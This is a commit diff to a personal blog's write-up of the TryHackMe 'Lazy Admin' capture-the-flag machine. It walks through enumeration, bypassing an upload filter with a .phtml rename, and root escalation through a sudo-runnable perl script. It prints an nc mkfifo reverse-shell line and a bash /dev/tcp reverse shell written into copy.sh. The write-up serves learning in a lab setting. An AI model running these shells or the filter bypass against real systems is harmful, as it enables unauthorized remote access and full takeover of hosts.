

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-09-10-Lazy-Admin.md, in a window 1280 px wide and 1400 px high, scrolled down 3025 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-09-10-Lazy-Admin.md

```diff
--- a/_posts/2025-09-10-Lazy-Admin.md
+++ b/_posts/2025-09-10-Lazy-Admin.md
@@ -14,9 +14,12 @@
 
 
 
-We start off running an Nmap scan to enumerate the open ports
+We start off running an Nmap scan to enumerate the open ports on the target
 
->nmap -sCV x.x.x.x
+
+{% highlight bash %}
+$ nmap -sCV x.x.x.x
+{% endhighlight bash %}
 
 We can see that ports 22 & 80 are open in the nmap scan below
 
@@ -25,10 +28,15 @@
 
 
 Navigating to the webpage shows us a basic apache webserver page
+
 Lets enumerated directories and subdirectories with [dirb](https://www.kali.org/tools/dirb/)
 
-> dirb http://x.x.x.x
+The script below will scan against the common.txt directory wordlist
 
+
+{% highlight bash %}
+$ dirb http://x.x.x.x
+{% endhighlight bash %}
 
 We can see in the screenshot below that there are a few directories of interest
 
@@ -104,8 +112,8 @@
 
 SUCCESS !
 
-looking around this page for potential vulnerabilites,
-We can see there is the option to upload files in the "MEDIA CENTER" page
+Looking around this page for potential vulnerabilites,
+We can see there is the option to upload files on the "MEDIA CENTER" page
 
 
 ![img]({{ '/assets/images/11-lazyadmin.png' | relative_url }}){: .center-image }
@@ -113,60 +121,73 @@
 
 Lets try and upload a known malicious file...
 I tried to upload the php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)
-Not forgetting to modify the IP and port to point to your machine and listener
-This hoever failed and did not upload successfully
-We can see that there is a filter in place preventing our upload
+Not forgetting to modify the IP and port to point to our machine and listener
+This however failed and did not upload successfully
+
+We can determine that there is a filter in place preventing our upload
 Let's try and modify the request and see if we can bypass the filter
-.........................................
+--------------------------------------------------------------------
 Using [Burpsuite](https://portswigger.net/burp/communitydownload)
 Lets reload and capture the page in order to modify the request
-Let's try to change the request from .php to .phtml and forward the request
+Let's try to change the request from of our payload from '.php' to '.phtml' and forward the request
 
 
 ![img]({{ '/assets/images/12-lazyadmin.png' | relative_url }}){: .center-image }
 
-We can see that this was succfully uploaded and bypassed the filter
+We can see that this bypassed the filter and was succfully uploaded !
 
 
 ![img]({{ '/assets/images/13-lazyadmin.png' | relative_url }}){: .center-image }
 
-Lets start our listner and navigate to the reverse shell we just uploaded by clicking the link
-WE now get a successful shell on our machine to the target machine
+Lets start our listner and navigate to the reverse shell we just uploaded by clicking the link on the page
+We now get a successful shell on our machine connecting to the target machine
+
+
 Lets move into the /home directory and capture our root flag
 
 
 
 ![img]({{ '/assets/images/14-lazyadmin.png' | relative_url }}){: .center-image }
 
-> Flag: THM{redacted}
+> Flag: THM[redacted]
 
 
 _________________
 
-We now got the User Flag !!!
+We now captured the User Flag !!!
 
 Lets try and escalate our privilege to get the root flag...
 
 
->sudo -l
+
+{% highlight bash %}
+$ sudo -l
+{% endhighlight bash %}
+
 
 Running the command above shows that itguy can run a perl script called 'backup.pl' as root
-It appears to executes a bash script named '/etc/copy.sh'
-Looking inside we see there is a  file which shows a script being run
+We can inspect and see that it executes a bash script at '/etc/copy.sh'
+Inspecting this we see there is a  file which shows a script being run
 
 
 ![img]({{ '/assets/images/15-lazyadmin.png' | relative_url }}){: .center-image }
 
->rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
+{% highlight bash %}
+$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
+{% endhighlight bash %}
+
+
 
 
 Lets modify it to point to our IP and port of our listener
 
-> echo "bash -i >& /dev/tcp/attacker_ip/port 0>&1" > copy.sh
 
+{% highlight bash %}
+$  echo "bash -i >& /dev/tcp/attacker_ip/port 0>&1" > copy.sh
+{% endhighlight bash %}
 
-*Remember we are already connected on the port we originally chose...
-*So we will need to start a second listener and a different port from the first listener we set up
+*Remember we are already connected on the port we chose for the first shell connection
+*So we will need to select a second listener and a different port from the first listener we set up
 
 
 ![img]({{ '/assets/images/16-lazyadmin.png' | relative_url }}){: .center-image }
@@ -174,14 +195,18 @@
 Lets run the command below to start the script
 
 
->$sudo /usr/bin/perl /home/itguy/backup.pl
+
+{% highlight bash %}
+$ sudo /usr/bin/perl /home/itguy/backup.pl
+{% endhighlight bash %}
 
 
-We now get our reverse shell as root !!!
+
+We now get our reverse shell as root on our machine!!!
 Lets cat out /root/root.txt to capture the ROOT FLAG
 
 
 
 ![img]({{ '/assets/images/17-lazyadmin.png' | relative_url }}){: .center-image }
 
-We have now captured the root flag and pwnd the machine
+We have now captured the root flag and pwnd the machine !
```
Also changed, not shown: other parts of _posts/2025-09-10-Lazy-Admin.md (+7 -7 lines).
